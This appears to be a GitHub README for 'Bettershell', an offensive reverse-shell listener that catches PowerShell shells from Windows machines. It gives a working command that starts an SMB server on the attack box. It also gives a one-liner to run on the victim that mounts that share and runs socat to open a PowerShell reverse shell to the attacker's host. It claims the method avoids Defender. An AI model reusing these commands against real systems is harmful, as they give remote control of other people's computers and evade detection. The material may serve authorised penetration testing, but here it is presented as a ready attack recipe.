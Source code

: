 Bettershell is a basic netcat client paired with rlwrap, socat, a large Powershell command wordlist, and bash scripting.

Using bettershell in place of a typical nc listener, you can catch Powershell reverse shells that don't die on ctrl+c, autocomplete based on wordlist entries and command output, use arrowkey movement to edit pasted commands without those annoying symbols, and reference a searchable command history. You also get an accurate path prompt, and zero weird echo. Best of all, it's blue - is it really powershell if it isn't?

Bettershell can be used to catch any reverse shell from a Windows box. For stderr piping support, the included socat.exe binary can easily be executed on the victim from an SMB share.

To do so, open port 445, then start up an impacket SMB server on your attack box in the directory with socat.exe:
```
sudo smbserver.py SMB . -comment SMB -ts -debug -smb2support -username user -password pass
```
to get a reverse shell, execute the following on your victim box:
```
cmd.exe /c net use x: \\YOURIP\SMB /user:user pass & x:\socat.exe tcp-connect:$IP:$PORT exec:powershell.exe,pty,stderr
```
The above example shouldn't trigger Defender. Exclude authentication when attacking PCs that don't support it.
